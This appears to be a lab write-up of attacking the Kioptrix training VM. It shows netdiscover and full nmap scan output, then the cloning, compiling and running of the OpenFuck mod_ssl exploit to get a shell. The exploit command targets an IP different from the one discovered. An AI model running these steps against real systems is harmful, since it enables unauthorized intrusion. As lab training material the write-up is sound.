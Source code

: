 ## **Step 1: Reconnaissance**

Before attacking, we need to gather information about the target.

### **1.1 Network Discovery**

First, identify the IP address of the Kioptrix machine on the network:

bash

```bash
netdiscover -r 192.168.1.0/24
```

As i run the above command i finally get my Machine **IP**.

**==192.168.1.104   08:00:27:bf:5f:4b      1      42  PCS Systemtechnik GmbH==**

### **1.2 Port Scanning with Nmap**

Perform an Nmap scan to discover open ports and services:

```bash
nmap -v -sV -sC -O -T4 -p- -A -oA /home/arjun/"Nmap Output"/kioptrix-1 192.168.1.104
```

##### **OUTPUT:**

`PORT      STATE SERVICE     VERSION`
`22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)`
`|sshv1: Server supports SSHv1`
`| ssh-hostkey:` 
`|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)`
`|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)`
`|  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)`
`80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)`
`| http-methods:` 
`|   Supported Methods: GET HEAD OPTIONS TRACE`
`|_  Potentially risky methods: TRACE`
`|http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b`
`|_http-title: Test Page for the Apache Web Server on Red Hat Linux`
`111/tcp   open  rpcbind     2 (RPC #100000)`
`| rpcinfo:` 
`|   program version    port/proto  service`
`|   100000  2            111/tcp   rpcbind`
`|   100000  2            111/udp   rpcbind`
`|   100024  1          32768/tcp   status`
`|  100024  1          32768/udp   status`
`139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)`
`443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b`
`| http-methods:` 
`|_  Supported Methods: GET HEAD POST`
`|http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b`
`| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--`
`| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--`
`| Public Key type: rsa`
`| Public Key bits: 1024`
`| Signature Algorithm: md5WithRSAEncryption`
`| Not valid before: 2009-09-26T09:32:06`
`| Not valid after:  2010-09-26T09:32:06`
`| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1`
`|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33`
`| sslv2:` 
`|   SSLv2 supported`
`|   ciphers:` 
`|     SSL2_RC4_128_WITH_MD5`
`|     SSL2_RC2_128_CBC_WITH_MD5`
`|     SSL2_RC4_64_WITH_MD5`
`|     SSL2_DES_64_CBC_WITH_MD5`
`|     SSL2_DES_192_EDE3_CBC_WITH_MD5`
`|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5`
`|    SSL2_RC4_128_EXPORT40_WITH_MD5`
`|ssl-date: 2025-08-07T11:53:32+00:00; +3h59m58s from scanner time.`
`|_http-title: 400 Bad Request`
`32768/tcp open  status      1 (RPC #100024)`
`MAC Address: 08:00:27:BF:5F:4B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)`
`Device type: general purpose`
`Running: Linux 2.4.X`
`OS CPE: cpe:/o:linux:linux_kernel:2.4`
`OS details: Linux 2.4.9 - 2.4.18 (likely embedded)`
`Uptime guess: 0.001 days (since Thu Aug  7 13:22:22 2025)`
`Network Distance: 1 hop`
`TCP Sequence Prediction: Difficulty=201 (Good luck!)`
`IP ID Sequence Generation: All zeros`

`Host script results:`
`|clock-skew: 3h59m57s`
`|_smb2-time: Protocol negotiation failed (SMB2)`
`| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)`
`| Names:`
`|   KIOPTRIX<00>         Flags: <unique><active>`
`|   KIOPTRIX<03>         Flags: <unique><active>`
`|   KIOPTRIX<20>         Flags: <unique><active>`
`|   MYGROUP<00>          Flags: <group><active>`
`|_  MYGROUP<1e>          Flags: <group><active>`

`TRACEROUTE`
`HOP RTT     ADDRESS`
`1   0.79 ms 192.168.1.104`


## **Step 2: Exploitation**

Now, let's exploit This machine by using, Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4.

I have Download the exploit by the name OpenFuck from exploit-db data base.

1. Download OpenFuck.c

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
```

2. Install ssl-dev library

```bash
apt-get install libssl-dev
```

3. It's Compile Time

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

4. Running the Exploit

```bash
./OpenFuck 0x6b 192.168.80.145 443 -c 40
```

5. Gets the lower privileged shell. (Screenshot)
![[Pasted image 20250812132512.png]]



